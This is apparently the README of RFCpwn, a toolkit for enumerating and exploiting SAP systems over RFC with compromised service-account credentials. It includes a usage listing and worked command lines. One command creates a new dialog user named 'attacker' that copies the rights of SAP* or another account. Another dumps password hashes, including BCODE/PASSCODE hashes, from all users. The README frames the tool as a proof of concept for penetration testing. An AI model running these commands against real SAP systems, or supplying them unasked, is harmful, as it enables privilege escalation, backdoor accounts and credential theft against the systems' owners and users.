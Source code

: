 # RFCpwn
An SAP enumeration and exploitation toolkit using SAP RFC calls


This is a toolkit for demonstrating the impact of compromised service accounts.


This PoC is not for use in production environments, no guarantee of stability or support.


RFCpwn relies on the pyrfc and the libraries provided by SAP in: https://github.com/SAP/PyRFC#installation
```shell
usage: RFCpwn.py [-h] [-debug] [-ip IP] [-u Username] [-p Password]
                   [-c Client] [-s Sysid] [-ping] [-enum] [-usercopy]
                   [-user USER] [-copy COPY] [-pw PW] [-dump] [-exp]

An Impacket style enumeration and exploitation tool using SAP RFC calls

optional arguments:
  -h, --help   show this help message and exit
  -debug       Turn DEBUG output ON

Authentication:
  -ip IP       <targetName or address>
  -u Username  RFC Users Username
  -p Password  RFC Users Password
  -c Client    Client- eg.000
  -s Sysid     System Number- eg 00
  -ping        RFC Ping Command

User Abuse:
  -enum        Use to enumerate a specific user
  -usercopy    add a Dialog User
  -user USER   Required for -usercopy and -userenum to specify the user
  -copy COPY   User to be copied required for -usercopy
  -pw PW       password of new user for -usercopy

Hash Collection:
  -dump        Dump hashes use with below
  -exp         EXPERIMENTAL - Dump BCODE / PASSCODE hashes
  ```
## Examples
Ping - confirm connectivity
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -ping
```
Copy a users rights into a new dialog user. If -copy is not specified SAP* is used.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -usercopy -user attacker -pw changeme1
```
Dump hashes from all users. option -exp for experimental bcode & passcode hashes.
```shell
./RFCpwn.py -ip 192.168.200.253 -s 00 -c 000 -u RFCUser -p RFCPass -dump 
```

![Imgur Image](https://i.imgur.com/gruaUrT.gif)

